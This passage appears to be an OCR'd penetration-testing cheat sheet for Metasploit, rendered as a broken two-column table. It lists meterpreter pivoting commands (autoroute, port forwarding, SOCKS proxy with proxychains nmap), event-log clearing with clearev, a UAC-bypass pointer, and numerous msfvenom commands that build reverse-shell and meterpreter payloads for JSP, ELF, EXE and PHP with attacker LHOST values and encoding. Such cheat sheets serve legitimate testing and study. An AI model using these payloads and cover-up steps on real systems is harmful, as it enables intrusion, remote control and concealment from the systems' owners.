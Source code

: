 | # meterpreter > run  autoroute -s 10.1.13.0/24               |                                                              |
| # use  auxiliary/scanner/portscan/tcp                        |                                                              |
| #  meterpreter > portfwd add -l <listening port> -p <remote port>  -r <remote/internal host> |                                                              |
|                                                              |                                                              |
| or socks proxy:                                              |                                                              |
| route add 10.10.10.10  255.255.255.248 <session>             |                                                              |
| use auxiliary/server/socks4a                                 |                                                              |
| Add proxy to  /etc/proxychains.conf                          |                                                              |
| proxychains nmap -sT -T4 -Pn  10.10.10.50                    |                                                              |
| setg socks4:127.0.0.1:1080                                   |                                                              |
|                                                              |                                                              |
| Cleanup                                                      |                                                              |
| clearev                                                      |                                                              |
|                                                              |                                                              |
| Bypass UAC                                                   |                                                              |
| post/windows/gather/win/_privs                               |                                                              |
| You  can bypass that restriction by using the bypassuac module (search uac), and then set session <no> and run with exploit. |                                                              |
|                                                              |                                                              |
| Msfvenom                                                     |                                                              |
| https://www.offensive-security.com/metasploit-unleashed/Msfvenom/ |                                                              |
|                                                              |                                                              |
| msfvenom  -p java/jsp_shell_reverse_tcp LHOST=10.10.14.56 LPORT=8888 -f raw >  shell.jsp |                                                              |
| msfvenom  -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address>  LPORT=<Your Port to Connect On> -f elf > shell.elf |                                                              |
| msfvenom  -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address>  LPORT=<Your Port to Connect On> -f exe > shell.exe |                                                              |
|                                                              |                                                              |
| msfvenom  -p windows/shell_reverse_tcp LHOST=10.11.0.5 LPORT=4444 -f exe -o  shell_reverse.exe |                                                              |
| msfvenom  -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b  '\x00' -i 3 -f python |                                                              |
|                                                              |                                                              |
| PHP                                                          |                                                              |
| msfvenom  -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to  Connect On> -f raw > shell.php |                                                              |
| msfvenom  -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> -o meterpreter.php |                                                              |
| msfvenom  -p generic/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f php -o  shell.php |                                                              |
|                                                              |                                                              |
| -p = payload                                                 |                                                              |
| -f = output format                                           |                                                              |
| -o = out                                                     |                                                              |
| -a = architecture                                            |                                                              |